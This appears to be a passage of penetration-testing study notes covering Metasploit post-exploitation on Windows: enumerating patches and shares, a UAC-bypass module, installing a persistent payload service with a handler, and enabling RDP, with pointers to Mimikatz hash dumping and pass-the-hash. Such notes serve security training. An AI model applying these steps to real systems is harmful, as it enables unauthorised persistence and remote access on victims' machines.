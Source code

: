 ```bash

msf > use post/windows/gather/enum_patches
# attempt to enumerate which patches are applied to a _Windows_ system, as well as on which date they were applied

msf > use post/windows/gather/enum_shares
# gather SMB Share Enumeration via Registry 

msf > loot
# returns a list of all _loot_ in the database
```


>**Return to [[04 - Windows Privilege Escalation]] for:**
>   Windows Privilege Escalation: Bypassing UAC
>   Windows Privilege Escalation:Token Impersonation With Incognito
  > Dumping Hashes With Mimikatz
  > Pass-the-Hash With PSExec
  
  `exploit/windows/local/_bypassuac_injection`

## Establishing Persistence On Windows

+ Persistence consists of techniques that adversaries use to **keep access to systems** across restarts, changed credentials, and other interruptions that could cut off their access.

+ Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.

+ We can utilize various post exploitation persistence modules to ensure that we
always have access to the target system.

```bash
msf > use exploit/windows/local/persistence_service
# generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
# to recive the connection
msf > use multi/handler
  ```
  
## Enabling RDP

+ The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.

+ RDP uses TCP port 3389 by default.

+ RDP is disabled by default, however, we can utilize an MSF exploit module to enable RDP on the Windows target and consequently utilize RDP to remotely access to the target system.

+ RDP authentication requires a legitimate user account on the target system as well as the user’s password in clear-text.
``` bash
msf > post/windows/manage/enable_rdp

```
